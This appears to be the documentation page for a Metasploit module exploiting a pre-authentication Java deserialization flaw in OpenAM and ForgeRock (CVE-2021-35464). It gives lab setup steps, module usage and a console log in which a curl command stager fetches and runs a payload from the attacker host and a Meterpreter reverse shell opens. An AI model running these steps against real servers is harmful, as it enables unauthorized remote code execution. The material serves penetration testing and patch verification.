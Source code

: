 ## Vulnerable Application
OpenAM versions 7 and later are not affected. A patch is available that can be applied for OpenAM version 6.

### Description

This module leverages a pre-authentication remote code execution vulnerability in the OpenAM identity and access
management solution. The vulnerability arises from a Java deserialization flaw in OpenAM’s implementation of the Jato
framework and can be triggered by a simple one-line GET or POST request to a vulnerable endpoint. Successful
exploitation yields code execution on the target system as the service user.

This vulnerability also affects the ForgeRock identity platform which is built on top of OpenAM and is thus
is susceptible to the same issue.

### Installation

#### OpenAM on Ubuntu 20.04.2 x64 with Docker version 20.10.2

*This maps TCP port 7080 to the containers port 8080.*

1. `sudo docker run -h localhost -p 7080:8080 --name openam openidentityplatform/openam:14.6.2`
1. Navigate to http://<ip_address>:7080/openam
1. Click `Create New Configuration`, not `Create Default Configuration`, as automatic configuration appears to fail.
1. Except where otherwise noted, use the default configuration values and set password fields where required.
    1. In Step 3, set the ports to the following values
        * DIRECTORY_ADMIN_PORT = 4444
        * DIRECTORY_JMX_PORT = 1689
        * DIRECTORY_PORT = 50389
    1. In Step 4, select "OpenAM User Data Store"

#### ForgeRock with Docker

*This assumes that the ForgeRock `AM-6.5.3.war` file is available for deployment.*

1. Rename or copy `AM-6.5.3.war` to `openam.war`
1. In the same directory as the `openam.war` file, create a `Dockerfile` with the following contents:

    ```
    FROM tomcat:8.5.3-jre8
    
    MAINTAINER metasploit
    
    COPY openam.war /usr/local/tomcat/webapps/
    ```

1. Build the docker image using `docker build . -t forgerock`
1. Run the container using `docker container run -it --publish 8080:8080 forgerock`
1. Navigate to http://<ip_address>:8080/openam
1. Follow the default configuration steps.

## Verification Steps

1. Follow the OpenAM instructions listed above to install OpenAM
1. Follow the `ForgeRock with Docker` instructions above to install ForgeRock.
1. Do: `use exploit/multi/http/cve_2021_35464_forgerock_openam`
1. Do: `set RHOST <ip>`
1. Do: `set LHOST <ip>`
1. Do: `set LPORT <port>`
1. Do: `run`
1. You should get a Meterpreter session.

## Scenarios

#### OpenAM on Ubuntu 20.04.2 x64 with Docker version 20.10.2
```
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > show options

Module options (exploit/multi/http/cve_2021_35464_forgerock_openam):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.134.134  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      7080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local mac
                                         hine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT  8443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > run

[*] Started reverse TCP handler on 192.168.135.197:8443 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/Zrrhm8JKIL8QB2Q
[*] Local IP: http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q
[*] Generated command stager: ["curl -so /tmp/wMKsYYMP http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q;chmod +x /tmp/wMKsYYMP;/tmp/wMKsYYMP;rm -f /tmp/wMKsYYMP"]
[+] Successfully executed command: curl -so /tmp/wMKsYYMP http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q;chmod +x /tmp/wMKsYYMP;/tmp/wMKsYYMP;rm -f /tmp/wMKsYYMP
[*] Client 192.168.134.134 (curl/7.64.0) requested /Zrrhm8JKIL8QB2Q
[*] Sending payload to 192.168.134.134 (curl/7.64.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 192.168.134.134
[*] Command Stager progress - 100.00% done (123/123 bytes)
[*] Meterpreter session 11 opened (192.168.135.197:8443 -> 192.168.134.134:44944) at 2021-07-02 15:59:30 -0500
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 10.9 (Linux 5.8.0-53-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: openam @ localhost (uid=1001, gid=0, euid=1001, egid=0)
meterpreter > 
```
